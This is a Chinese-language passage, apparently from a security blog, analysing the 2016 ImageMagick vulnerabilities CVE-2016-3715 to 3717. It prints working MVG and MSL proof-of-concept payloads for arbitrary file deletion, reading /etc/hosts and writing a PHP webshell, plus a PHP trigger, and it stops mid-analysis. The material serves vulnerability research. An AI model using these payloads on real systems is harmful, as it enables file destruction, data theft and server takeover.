 CVE-2016-3715是利用ImageMagick支持的ephemeral协议，来删除任意文件：

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'ephemeral:/tmp/delete.txt'
popgraphic-context

```

CVE-2016-3716是利用ImageMagick支持的msl协议，来进行文件的读取和写入。利用这个漏洞，可以将任意文件写为任意文件，比如将图片写为一个.php后缀的webshell。

特别说明的是，msl协议是读取一个msl格式的xml文件，并根据其内容执行一些操作：

```
file_move.mvg
-=-=-=-=-=-=-=-=-
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'msl:/tmp/msl.txt'
popgraphic-context

/tmp/msl.txt
-=-=-=-=-=-=-=-=-
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="/tmp/image.gif" />
<write filename="/var/www/shell.php" />
</image>

```

CVE-2016-3717可以造成本地文件读取漏洞：

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/hosts'
pop graphic-context

```

0x02 深入分析
=========

* * *

除了报告中给出的POC以外，各个安全研究人员也集思广益，发现这个洞的更多利用/影响方式。

首先，PHP扩展『ImageMagick』也存在这个问题，而且只需要调用了Imagick类的构造方法，即可触发这个漏洞：

```
<?php
new Imagick('vul.gif');

```

因为没有返回值，我利用cloudeye捕捉到apache日志，从日志中读取命令执行的结果：

